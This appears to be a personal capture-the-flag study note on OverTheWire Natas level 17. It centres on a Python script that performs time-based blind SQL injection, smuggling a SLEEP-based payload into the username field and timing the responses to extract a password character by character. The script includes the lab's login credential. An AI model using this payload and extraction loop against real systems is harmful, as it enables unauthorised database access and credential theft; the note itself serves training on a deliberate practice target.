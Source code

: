 
2024-07-20 14:18

Source: #overthewire #natas 

similar to the [[BlindSQL]] problem in  [[SQL injection using py]] this problem also has one input field named username and a DB schema that defines username and password fields
the difference is that the echo statements are commented out, so we don't get to know if the username with a specified character exists or not .

```
import requests
import re
import string
from time import *

characters = string.ascii_letters+"0123456789"
username = 'natas17'
password = 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC'

url = 'http://natas17.natas.labs.overthewire.org/?debug=true'
session = requests.Session()
seen_password = list()

while ( len(seen_password) < 32 ):
    for character in characters:
    
        start_time = time()
        # print ("start_time", start_time)
        print ("trying", "".join(seen_password) + character)
        
        response = session.post(url, data = {"username": 'natas18" AND BINARY password LIKE "' + "".join(seen_password) + character +  '%" AND SLEEP(1) # '}, auth = (username, password) )

        content = response.text
        end_time = time()
        # print ("end_time", end_time)
        difference = end_time - start_time

        if ( difference > 1 ):
            # success, correct character!
            seen_password.append(character)
            break
        # print content
```
## TLDR 
- start timer before posting request and end timer after receiving the request 
- in the response we create a delay of 1 second if we find the character in the password 
- we then measure the difference between start time and end time 
- for characters with delay of more than 1 second we add them to the seen list

### References
https://www.youtube.com/watch?v=GDOpW-LShy8&t=1s